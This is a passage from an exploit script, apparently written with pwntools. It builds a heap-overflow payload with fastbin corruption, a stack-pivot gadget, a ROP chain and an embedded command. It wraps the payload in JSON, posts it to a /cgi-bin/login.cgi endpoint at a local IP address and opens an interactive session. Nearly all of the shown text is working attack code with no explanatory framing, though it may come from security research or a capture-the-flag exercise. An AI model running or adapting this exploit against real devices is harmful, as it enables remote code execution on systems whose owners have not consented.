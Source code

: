 ```bash
        # .text:00000000004087F5 test    rsi, rsi
        # .text:00000000004087F8 jz      short loc_408801
        # .text:00000000004087F8
        # .text:00000000004087FA mov     rdi, [rbx+10h]
        # .text:00000000004087FE call    qword ptr [rbx+8]
        0x08: p64(0x00000000004381d3), # .free -> xchg eax, esp ; je 0x43901d ; add rsp, 0xe8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        0x10: p64(0x675ec8 - 0x28), # getenv@got - 0x28
        0x18: CMD,
        0x118: ropchain
    })

    hijack_payload =  b'"ddddddddddddddddddddddddddddddddddddddd\u"   '
    hijack_payload += b'e' * 0x5c
    hijack_payload += pivot_payload
    hijack_payload += b'"'
    # hijack_payload += b','
    # print("hijack_payload len {:#x}, raw_len {:#x}".format(len(hijack_payload), raw_len(hijack_payload)))


    # print("message len {:#x}".format(template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)))

    array_payload = generate_array_payload(top_chunk_size - 0x1040 - 0x50 - 0x20, template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)) 

    payload =  array_payload
    payload += overflow_old_top_chunk_payload
    payload += overflow_new_top_chunk_payload
    payload += free_new_top_chunk_payload
    payload += overflow_fastbin_fd_payload
    payload += dummy_alloc_payload
    payload += hijack_payload

    http_body = json_template % get_raw_payload(payload)
    write("exp_data", http_body)

    http_template = b'''
POST /cgi-bin/login.cgi HTTP/1.1\r
Host: %s:%d\r
Content-Type: application/json\r
Content-Length: %d\r
\r
%s
'''.strip()
    # print(http_template)

    http_message = http_template % (host, port, len(http_body), http_body)

    io.send(http_message)

    io.interactive()

if __name__ == "__main__":
    host = b"192.168.64.135"
    port = 8080

    exp(host, port)
```